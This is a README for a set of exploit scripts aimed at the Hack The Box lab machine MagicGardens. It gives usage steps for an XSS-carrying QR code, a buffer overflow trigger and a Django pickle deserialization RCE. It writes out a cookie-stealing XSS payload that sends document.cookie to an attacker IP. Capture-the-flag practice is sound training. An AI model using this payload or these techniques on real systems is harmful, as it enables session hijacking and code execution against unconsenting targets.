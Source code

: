 # HTB MagicGardens

Scripts for [HTB MagicGardens](https://www.hackthebox.com/machines/magicgardens) machine.

---

## Create QR Codes
To generate QR codes in a simple Python script first install `qrcode` library:
```shell-session
❯ pip3 install "qrcode[pil]"
```
and then just generate the QR code with the desired url (or `XSS` payload):
```shell-session
❯ python3 generate_qrcode.py 'd81b8f9a242f10a5aed7a2070f264629.0d341bcdc6746f1d452b3f4de32357b9.<img src=x onerror=fetch("http://10.10.16.2:1337/"+btoa(document.cookie));>'
```


---

## Buffer Overflow
Create a private key with `ssh-keygen` and add its content to the script

## Usage
```shell-session
❯ python3 trigger_harvest.py
```
Execute this script while running `Harvest` binary from `HTB MagicGardens` binary.

---

## DJango Pickle Deserialization RCE

## Usage
First, install `DJango` for version prior to `5.0`, since `Pickle` has been deprecated for that version, in a virtual environment:
```shell-session
❯ python3 -m venv .venv_django

❯ source .venv_django/bin/activate

❯ pip3 install "django<5.0"
```
Then, create needed directories to execute it:
```shell-session
❯ mkdir django_exp && cd django_exp

❯ mkdir app

❯ touch app/__init__.py

❯ touch app/settings.py
```
Finally, just execute the script after modifying the source code with the command you want to run:
```shell-session
❯ python3 django_pickle_exp.py
```
